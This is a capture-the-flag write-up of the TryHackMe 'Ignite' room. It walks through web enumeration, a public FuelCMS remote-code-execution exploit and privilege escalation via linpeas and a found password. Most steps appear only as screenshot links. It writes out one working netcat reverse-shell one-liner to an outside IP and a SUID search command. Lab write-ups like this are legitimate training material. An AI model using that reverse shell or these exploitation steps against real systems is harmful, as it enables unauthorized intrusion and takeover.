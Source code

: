 # Writeup for Room "Ignite"

This is the writeup for the box Ignite

## 🔍 Enumeration Phase

## 1. WebSite
- The website is running on Apache.
- The following information was found in `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/00.png)

    ![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/01.png)

## 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:
  
    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/02.png)

    ![Fuzzing-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/03.png)

- Dirsearch was used to find more directories and files, the following images show the results:

    ![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/04.png)

    ![dirsearch-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/05.png)


## 📡 3. Nmap Scan
- The following information was found:
  - The port 80 is open. **HTTP (Apache)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/06.png)

## 4. What WebSite?
- whatweb gives me:

    ![whatweb](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/07.png)

## 🌐🖥️ 5. WebSite
- The login page for FuelCMS:

    ![FuelCMS](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/08.png)

- We also have a ```README.md``` file 

    ![README.md](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/09.png)

- We also have a ```composer.json``` file 

    ![composer.json](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/10.png)

## 6. Searchsploit - Reverse Shell 
- I use searchsploit to search for FuelCMS exploits and download the Remote Code Execution (RCE) version 3.

    ![searchsploit](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/11.png)

- In addition, the exploit gives me more information about the cms:

    ![exploit](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/12.png)

- I use the following command for executing a exploit in python:

    ![exploit-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/13.png)

- After executing differents commands, I get a reverse shell:

    ![reverse-shell](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/14.png)

    ![reverse-shell-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/15.png)

> [!NOTE]
> The one that worked was the last one : 
> ```rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.3.188 4444 > /tmp/f```

- Now that I have a reverse shell, I decided to get a beatifull reverse shell and I moved to the home directory named ```www-data``` and I found the first flag 

    ![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/16.png)

## 🐚💻🚀 7. Privilege Escalation
- I used the command ```find / -perm -u=s -type f 2> /dev/null``` to search for files with SUID permissions.

    ![find](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/17.png)

- I uploaded ```linpeas.sh``` to ```/tmp``` to look for privilege escalation vulnerabilities:

    ![linpeas](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/18.png)

- The one that caught my attention the most was pwnkit.

    ![pwnkit](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/19.png)

- I checked that the machine had ```gcc``` available.

    ![gcc](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/20.png)

- I downloaded the ```pwned``` exploit and I compiled it 

    ![pwned](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/21.png)

- After a while trying, I was getting errors like:

    ![error](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/22.png)

- I checked linpeas again and voilà: there was a password.

    ![linpeas-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/23.png)

- I have used the password for escalating privileges.

    ![escalate](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/24.png)

    ![escalate-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/25.png)

- If I have searched for the ```root.txt``` file, we get the flag.

    ![root.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/ignite/screenshots/26.png)